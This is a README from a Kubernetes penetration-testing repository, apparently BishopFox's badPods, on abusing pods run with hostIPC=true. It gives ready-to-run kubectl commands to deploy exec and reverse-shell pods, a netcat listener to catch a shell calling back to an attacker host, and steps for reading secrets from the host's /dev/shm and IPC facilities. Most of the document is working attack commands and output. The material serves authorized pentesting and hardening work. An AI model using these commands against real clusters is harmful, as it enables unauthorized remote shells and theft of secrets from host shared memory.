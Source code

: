 # Bad Pod #7: hostIPC

If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within another pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you will be able to read/write to those same mechanisms. The first place you'll want to look is `/dev/shm`, as it is shared between any pod with `hostIPC=true` and the host. You'll also want to check out the other IPC mechanisms with `ipcs`.

* **Inspect /dev/shm** - Look for any files in this shared memory location. 
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 


## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Inspect /dev/shm - Look for any files in this shared memory location.](#inspect-devshm---look-for-any-files-in-this-shared-memory-location)
  - [Look for any use of inter-process communication on the host](#look-for-any-use-of-inter-process-communication-on-the-host)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl exec -it hostipc-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/[RESOURCE_TYPE]/hostipc-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostipc-exec-[RESOURCE_TYPE]      
kubectl exec -it hostipc-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe priv-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostipc/[RESOURCE_TYPE]/hostipc-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete pod hostipc-exec-pod
kubectl delete cronjob hostipc-exec-cronjob
```

# Post exploitation 

## Inspect /dev/shm - Look for any files in this shared memory location

For a super simple POC, I have created a secret file in /dev/shm on the worker node"
```
root@k8s-worker:/# echo "secretpassword=BishopFox" > /dev/shm/secretpassword.txt
```


From the hostIPC pod, we can list all files in /dev/shm
```
root@hostipc-exec-pod:/# ls -al /dev/shm/
total 4
drwxrwxrwt 3 root root  80 Dec 22 15:11 .
drwxr-xr-x 5 root root 360 Dec 21 20:01 ..
drwx------ 4 root root  80 Sep  9 20:10 multipath
-rw-r--r-- 1 root root  25 Dec 22 15:11 secretpassword.txt
```

Check out any interesting files
```
root@hostipc-exec-pod:/# cat /dev/shm/secretpassword.txt
secretpassword=BishopFox
```

## Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
* https://docs.docker.com/engine/reference/run/#ipc-settings---ipc
* https://opensource.com/article/20/1/inter-process-communication-linux
